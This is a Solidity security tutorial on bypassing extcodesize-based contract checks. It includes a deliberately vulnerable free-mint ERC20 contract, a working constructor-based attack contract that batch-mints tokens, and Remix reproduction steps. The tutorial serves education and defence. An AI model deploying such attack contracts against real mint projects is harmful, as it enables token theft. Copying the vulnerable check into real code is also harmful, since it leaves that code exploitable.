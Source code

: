 ```yaml
---
title: S08. Contract Check Bypassing
tags:
    - solidity
    - security
    - constructor
---
```


# WTF Solidity S08. Contract Length Check Bypassing

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

-----

In this lesson, we will discuss contract length checks bypassing and introduce how to prevent it.

## Bypassing Contract Check

Many free-mint projects use the `isContract()` method to restrict programmers/hackers and limit the caller `msg.sender` to external accounts (EOA) rather than contracts. This function uses `extcodesize` to retrieve the bytecode length (runtime) stored at the address. If the length is greater than 0, it is considered a contract; otherwise, it is an EOA (user).

```solidity
    // Use extcodesize to check if it's a contract
    function isContract(address account) public view returns (bool) {
        // Addresses with extcodesize > 0 are definitely contract addresses
        // However, during contract construction, extcodesize is 0
        uint size;
        assembly {
          size := extcodesize(account)
        }
        return size > 0;
    }
```

Here is a vulnerability where the `runtime bytecode` is not yet stored at the address when the contract is being created, so the `bytecode` length is 0. This means that if we write the logic in the constructor of the contract, we can bypass the `isContract()` check.

![](./img/S08-1.png)

## Vulnerability Example

Let's take a look at an example: The `ContractCheck` contract is a free-mint ERC20 contract, and the `mint()` function uses the `isContract()` function to prevent calls from contract addresses, preventing hackers from minting tokens in batch. Each call to `mint()` can mint 100 tokens.

```solidity
// Check if an address is a contract using extcodesize
contract ContractCheck is ERC20 {
    // Constructor: Initialize token name and symbol
    constructor() ERC20("", "") {}
    
    // Use extcodesize to check if it's a contract
    function isContract(address account) public view returns (bool) {
        // Addresses with extcodesize > 0 are definitely contract addresses
        // However, during contract construction, extcodesize is 0
        uint size;
        assembly {
          size := extcodesize(account)
        }
        return size > 0;
    }

    // mint function, only callable by non-contract addresses (vulnerable)
    function mint() public {
        require(!isContract(msg.sender), "Contract not allowed!");
        _mint(msg.sender, 100);
    }
}
```

We will write an attack contract that calls the `mint()` function multiple times in the `constructor` to mint `1000` tokens in batch:

```solidity
// Attack using constructor's behavior
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // When the contract is being created, extcodesize (code length) is 0, so it won't be detected by isContract().
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // This will work
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // After the contract is created, extcodesize > 0, isContract() can detect it
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

If what we mentioned earlier is correct, calling `mint()` in the constructor can bypass the `isContract()` check and successfully mint tokens. In this case, the function will be deployed successfully and the state variable `isContract` will be assigned `false` in the constructor. However, after the contract is deployed, the runtime bytecode is stored at the contract address, `extcodesize > 0`, and `isContract()` can successfully prevent minting, causing the `mint()` function to fail.

## Reproduce on `Remix`

1. Deploy the `ContractCheck` contract.

2. Deploy the `NotContract` contract with the `ContractCheck` contract address as the parameter.

3. Call the `balanceOf` function of the `ContractCheck` contract to check that the token balance of the `NotContract` contract is `1000`, indicating a successful attack.

4. Call the `mint()` function of the `NotContract` contract. Since the contract has already been deployed, calling the `mint()` function will fail.

## How to Prevent

You can use `(tx.origin == msg.sender)` to check if the caller is a contract. If the caller is an EOA, `tx.origin` and `msg.sender` will be equal; if they are not equal, the caller is a contract.

```
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```

## Summary

In this lecture, we introduced a vulnerability where the contract length check can be bypassed, and we discussed methods to prevent it. If the `extcodesize` of an address is greater than 0, then the address is definitely a contract. However, if `extcodesize` is 0, the address could be either an externally owned account (`EOA`) or a contract in the process of being created.